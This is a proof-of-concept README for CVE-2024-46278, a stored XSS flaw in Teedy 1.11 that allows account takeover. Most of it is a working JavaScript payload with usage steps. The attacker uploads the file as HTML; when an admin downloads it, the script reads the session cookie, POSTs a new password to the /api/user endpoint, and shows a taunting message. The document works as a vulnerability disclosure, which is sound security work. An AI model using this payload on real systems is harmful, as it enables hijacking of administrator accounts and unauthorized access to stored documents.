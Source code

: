 # 【CVE-2024-46278】teedy_1.11_account-takeover
【Teedy 1.11】account takeover via XSS

# Detail

There is a vulnerability that causes XSS when downloading files. XSS vulnerability could allow a Teedy administrator to rob an account with a few clicks. 

This vulnerability is marked as CVE-2024-46278: https://www.cve.org/CVERecord?id=CVE-2024-46278

# PoC

- Login as an attacker’s account.
- Upload this file as `html` type. You have to change “Origin” and “Referer” and argument for fetch in need.

```javascript
<script>
const currentCookie = document.cookie;

const requestOptions = {
  method: 'POST',
  headers: {
    'Content-Type': 'application/x-www-form-urlencoded;charset=UTF-8',
    'Accept': 'application/json, text/plain, */*',
    'Cookie': currentCookie,
    'sec-ch-ua': '"Not_A Brand";v="8", "Chromium";v="120"',
    'sec-ch-ua-mobile': '?0',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36',
    'sec-ch-ua-platform': '"Linux"',
    'Origin': 'http://localhost:8080',
    'Sec-Fetch-Site': 'same-origin',
    'Sec-Fetch-Mode': 'cors',
    'Sec-Fetch-Dest': 'empty',
    'Referer': 'http://localhost:8080/',
    'Accept-Encoding': 'gzip, deflate, br',
    'Accept-Language': 'en-US,en;q=0.9'
  },
  body: 'password=superSecure2&passwordconfirm=superSecure2'
};

fetch('http://localhost:8080/api/user', requestOptions)
  .then(response => {
    if (!response.ok) {
      throw new Error('Network response was not ok');
    }
        document.write('<h1>Your account was taken over by the attacker LOL</h1>');
    return response.json();
  })
  .then(data => console.log(data))
  .catch(error => console.error('There was a problem with your fetch operation:', error));
</script>
```

- Login with another account. eg. `admin`
- Click on the file uploaded by the attacker and select `Download this file`.

# Demo

https://www.youtube.com/watch?v=udQgVogsmhA
